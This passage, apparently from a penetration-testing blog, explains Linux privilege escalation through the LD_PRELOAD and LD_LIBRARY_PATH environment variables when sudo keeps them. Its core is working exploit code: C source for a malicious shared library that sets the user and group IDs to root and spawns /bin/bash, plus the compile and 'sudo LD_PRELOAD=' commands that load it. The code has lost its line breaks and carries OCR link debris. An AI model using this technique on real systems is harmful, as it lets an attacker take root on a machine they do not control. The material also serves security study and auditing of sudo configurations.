     * **Ok let us Know what is LD\_PRELOAD**

    libraries \[Code Blocks that Developer use its functions to ease coding]

    files with .so extension called (loaded in ram) when execute a C combiled Program need them

    located in\*\*`/var/lib /usr/x86_64-linux-gnux32/lib64/l  /usr/lib32  /usr/lib64 /usr/lib`\*\*

    with LD\_PRELOAD you can simulate a Libraries calling which done By Normal Execution & enforce system to call specefic library as soon as C Program execution

    this library can be malicious.so

    ![](https://0xbugatti.io/_astro/09Untitled1.CFUn27Ca_1mxllS.webp)
*   **Making Malicious\_lib.so**

    ```
    #include <stdio.h>#include <sys/types.h>#include <stdlib.h>void _init() {    unsetenv("LD_PRELOAD");    setgid(0);    setuid(0);    system("/bin/bash");}
    ```
*   **use it with excution**

    ```
    cd /tmpgcc -fPIC -shared -o [pe.so](http://pe.so/) pe.c -nostartfilessudo LD_PRELOAD=Malicious_lib.so <COMMAND> #Use any command you can run with sudo
    ```

## **\[B] LD\_LIBRARY\_PATH \[Shared Library Hijacking]**

*   **Check Line**

    ![](https://0xbugatti.io/_astro/Screenshot_from_2022-08-31_11-57-41.D5JDINnX_ZCKF0f.webp)

    Defaults        env\_reset

    \#this means reset the environment variables values before executing any command as sudo

    Defaults        env\_keep+=LD\_LIBRARY\_PATH

    \#this means dont reset the environment variable LD\_LIBRARY\_PATH value

    **LD\_LIBRARY\_PATH what is that ?**

    * **Ok let us Know what is LD\_LIBRARY\_PATH**

    libraries \[Code Blocks that Developer use its functions to ease coding]

    files with .so extension called (loaded in ram) when execute a C combiled Program need them

    located in\*\*`/var/lib /usr/x86_64-linux-gnux32/lib64/l  /usr/lib32  /usr/lib64 /usr/lib`\*\*

    with LD\_LIBRARY\_PATH you can change (Manipulate)the Default path to Load called Libraries from it You can Add a path contains library with the sanme name of called library ex : lib.so to spawn you a shell as soon as Execution

    ![](https://0xbugatti.io/_astro/09Untitled2.YNjfv8v__Z11APFx.webp)
*   **Enumerating Called Shared Libraries Name**

    ```
    ldd /command_path
    ```
*   **Making new malicous lib.so**
